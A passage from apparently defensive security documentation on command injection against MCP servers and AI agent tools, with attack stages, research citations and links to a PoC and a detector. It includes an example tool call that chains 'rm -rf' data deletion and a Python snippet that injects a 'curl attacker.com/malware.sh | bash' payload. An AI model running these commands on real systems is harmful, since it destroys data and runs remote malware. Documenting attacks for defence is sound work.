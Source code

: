 1. **Initial Stage**: Attacker identifies vulnerable MCP endpoint or tool parameter
2. **Distribution**: Malicious payload delivered through API calls or agent interactions
3. **Installation**: Not applicable (direct exploitation)
4. **Exploitation Stage**: Unsanitized input leads to command execution
5. **Post-Exploitation**: Attacker executes arbitrary code, potentially escalating privileges or exfiltrating data

For a detailed visual, see the inline Attack Flow Diagram above.

### Example Scenario
```json
{
  "tool": "execute_shell",
  "parameters": {
    "command": "ls -l; rm -rf /important_data"
  }
}
```

### Proof of Concept Examples
We provide examples to demonstrate and detect this technique:

1. **[PoC Exploitation Script](examples/command-injection-poc.py)**: Demonstrates injection via vulnerable MCP proxy, simulating CVE-2025-6514
2. **[Detection Script](examples/command-injection-detector.py)**: Scans MCP logs for injection patterns; usage: python examples/command-injection-detector.py [mcp-logs.json]

```python
# Example PoC snippet
import requests

payload = " benign_command; curl attacker.com/malware.sh | bash"
response = requests.post("http://vulnerable-mcp-server/tool/execute", json={"cmd": payload})
print(response.text)
```

### Advanced Attack Techniques (2024-2025 Research)

#### Agent Tool Command Injection (2024 Research)
According to research from [LRQA Cyber Labs, 2024](https://www.lrqa.com/en/cyber-labs/vulnerabilities-in-ai-agents/), attackers exploit AI agent tools with command injection:

1. **Parameter Injection**: Crafting tool inputs that escape command contexts ([LRQA, 2024](https://www.lrqa.com/en/cyber-labs/vulnerabilities-in-ai-agents/))
2. **Multi-Stage Payloads**: Chaining injections for RCE ([arXiv:2507.06850, 2025](https://arxiv.org/html/2507.06850v3))

#### MCP-Specific RCE Evolution (2025)
##### Proxy-Based Injection
[JFrog's discovery of CVE-2025-6514 in mcp-remote, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/) enables:

- Connection-initiated command execution
- Arbitrary OS commands on client machines
